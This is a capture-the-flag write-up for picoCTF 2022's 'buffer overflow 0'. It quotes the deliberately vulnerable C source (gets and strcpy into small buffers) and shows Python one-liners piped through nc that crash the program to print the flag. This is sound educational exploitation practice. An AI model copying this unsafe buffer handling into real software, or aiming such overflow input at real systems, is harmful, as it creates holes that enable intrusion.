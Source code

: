 # buffer overflow 0

- [Challenge information](buffer_overflow_0.md#challenge-information)
- [Solution](buffer_overflow_0.md#solution)

## Challenge information
```
Points: 100
Tags: picoCTF 2022, Binary Expoitation, gets
Author: ALEX FULTON / PALASH OSWAL

Description:

Smash the stack
Let's start off simple, can you overflow the correct buffer? 

The program is available here. You can view source here. And connect with it using:
nc saturn.picoctf.net 61481
 
Hints:
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. 
   Sometimes there are things you aren't expecting.
3. Run man gets and read the BUGS section. How many characters can the program really read?
```

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

This is a classic buffer overflow. The program sets up a signal handler catching `SIGSEGV` error conditions.
SigSegV means a signal for memory access violation, essentially trying to read or write from/to a memory area 
that your process does not have access to. This is also known as a segmentation fault.

When this happens the code in the `sigsegv_handler` is executed and tries to fix the problem or at least graciously quit the program.
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

Conveniently, in this case the code prints the flag for us.

There is also a `vuln` function with a rather small buffer
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

If we overflow this buffer with more data than it can handle, we might write to the return address of the function stored on the stack. If that memory address is illegal when the program tries to return, we will cause a segmentation fault.

### Try exploitation locally 

Lets try to overflow the buffer locally first.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ chmod +x vuln

┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
```

Ah, that's right. We need a dummy flag for testing.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ echo "picoCTF{Fake_Flag}" > flag.txt
                                          
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | ./vuln  
Input: picoCTF{Fake_Flag}
```

Success! We sent 20 bytes (slightly more than the buffer size of 16) and we got the flag.


### Connect to the server and get the flag

Finally, lets connect to the server and try to get the flag. If we don't succeed, we slight increse the input until we do.
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | nc saturn.picoctf.net 61481
Input:                                                                                                                                                      
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 61481
Input:                                                       

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*30)" | nc saturn.picoctf.net 61481
Input: picoCTF{<REDACTED>}
```

